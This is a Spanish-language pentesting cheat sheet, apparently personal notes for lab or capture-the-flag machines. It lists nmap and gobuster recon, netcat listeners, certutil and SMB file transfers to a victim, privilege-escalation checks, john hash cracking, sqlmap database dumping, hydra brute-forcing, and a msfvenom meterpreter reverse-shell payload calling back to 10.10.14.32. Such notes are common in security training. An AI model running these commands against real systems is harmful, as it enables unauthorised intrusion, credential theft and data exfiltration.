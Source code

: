 ## Identificar puertos abeirtos
```sh
nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn -oG allPorts
```
-oG se guarda en formato grepeable para poder extraer los puertos con extractports \
-sS escaneo sigiloso \
-p- escanea todos los puertos --open \
-min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo \
-n No realiza resolución DNS \
-vvv Muestra resultados muy detallados \
-Pn Desactiva la detección de hosts

## Identificar versiones de los puertos abiertos
```sh
nmap -sV -sC -p<puertos separados por ,> -n -v -Pn -oA scan
```
-sV deteccion de versiones \
-sC ejecuta scripts por defecto \
-n No realiza resolución DNS \
-v muestra resultados detallados \
-Pn Desactiva la detección de hosts\

## Scripts con nmap
```sh
nmap --script "vuln and safe" -p
```
## Gobuster
```sh
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
```
dir para directorio
-u para la url\
-w para pasarle el diccionario\
-x para agregar .txt a todos los datos del diccionario\
-t para los hilos\
| grep -v "301" para no mostrar los status

## Colocarse en escucha
```sh
nc -lvnp <puerto>
```

## Abrir un servidor para transferir archivos
```sh
python3 -m http.server <puerto>
```

## Escalacion de privilegios en Windows (Windows-Exploit-Suggester)
Revissar version   systeminfo\
En el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
```sh
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d <archivo descargado> -i systeminfo.txt
```

privilegios whoami /priv\
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) \(https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)\
o printspoofer\
winpeas

## Transferir archivos de linux a windows
En linux abrir un servidor\
Windows:
```sh
certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
```
Otra \
linux:
```sh
impacket-smbserver recurso $(pwd) -smb2support
```
windows:
```sh
copy \\<ip atacante>\recurso\archivo.extension archivo.extension
```

## Transferir archivos de linux a linux
Abrir servidor\
recibir:
```sh
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension
```

## Escalar privilegios en linux
Permisos sudo: 
```sh
sudo -l
```
Permisos suid: 
```sh
find / -type f -perm -4000 -ls 2>/dev/null
```
listar tareas predefinidas : 
```sh
cat /etc/crontab
```
Linux versiones anteriores 
```sh
searchsploit dirty cow
```

## Pasar de hexadecimal a normal
```sh
echo "486f6c61206d756e646f" | xxd -r -p
```

## Pasar de base 64 a normal
```sh
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
```

## Decifrar hash
Saber el tipo de hash
```sh
hashid hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256
```

## Reverseshell msfvenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx
```

## mejorar bash
```sh
script /dev/null -c bash
```
crtl + z
```sh
stty raw -echo; fg
```
```sh
reset xterm
```
```sh
export TERM=xterm
```
En la terminal del atacante para saber el tamaño de nano
```sh
stty size
```
En la terminal de la victima para ajustar el tamaño de nano
```sh
stty rows <rows> columns <columns>
```

##  Listar puertos ocultos
```sh
netstat -na -p tcp
```

## Sql map
Con burpsuite ver la peticion y descargar el archivo como request.txt
```sh
sqlmap -r request.txt --dbms=mysql --dump
```

## Listar smb
Ver recursos compartidos
```sh
smbclient -L ip
```
```sh
smbclient  //ip/recurso
```
Descargar archivo
```sh
get archivo
```
Subir archivo 
```sh
put archiv
```

## Hydra
```sh
hydra -l <usuario> -P <diccionario> <objetivo> <servicio> <opciones específicas del servicio>
```
-l <usuario>: Especifica un solo nombre de usuario.\
-L <archivo>: Especifica un archivo con una lista de usuarios.\
-p <contraseña>: Especifica una sola contraseña.\
-P <archivo>: Especifica un archivo con una lista de contraseñas.\
<objetivo>: La dirección IP o dominio del objetivo.\
<servicio>: El protocolo o servicio a atacar (por ejemplo: ssh, ftp, http-post-form, smb, etc.).\
<opciones específicas del servicio>: Dependiendo del servicio, puedes necesitar opciones adicionales.







